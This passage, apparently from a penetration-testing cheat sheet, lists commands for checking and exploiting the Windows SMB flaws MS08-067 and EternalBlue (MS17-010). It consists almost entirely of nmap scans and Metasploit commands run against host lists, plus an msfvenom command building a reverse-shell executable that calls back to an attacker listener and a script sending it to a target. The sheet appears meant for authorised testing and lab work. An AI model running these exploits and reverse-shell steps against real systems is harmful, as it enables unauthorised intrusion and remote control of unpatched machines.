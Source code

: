 ```
$ sudo nmap -n -Pn -sV --script smb-vuln-ms08-067 10.10.13.37 -p139,445
Or
msf > use exploit/windows/smb/ms08_067_netapi
msf > set RHOSTS file:smb_hosts.txt
msf > check
```

Exploit:

```
msf > use exploit/windows/smb/ms08_067_netapi
msf > set RHOSTS file:vuln_smb_hosts.txt
msf > run
```



### EternalBlue

**CVE-2017-0144, MS17-010**


#### MSF

Check:

```
$ sudo nmap -n -Pn -sV --script smb-vuln-ms17-010 10.10.13.37 -p139,445
Or
msf > use auxiliary/scanner/smb/smb_ms17_010
msf > set RHOSTS file:smb_hosts.txt
msf > set THREADS 25
msf > run
```

Exploit:

```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf > set RHOSTS file:vuln_smb_hosts.txt
msf > run
```


#### Manually

* [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)
* [https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010)

Send MSF payload and execute it with `send_and_execute.py`:

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev.exe
$ python send_and_execute.py 10.10.13.38 rev.exe
```

Or just execute commands on host with `zzz_exploit.py`:
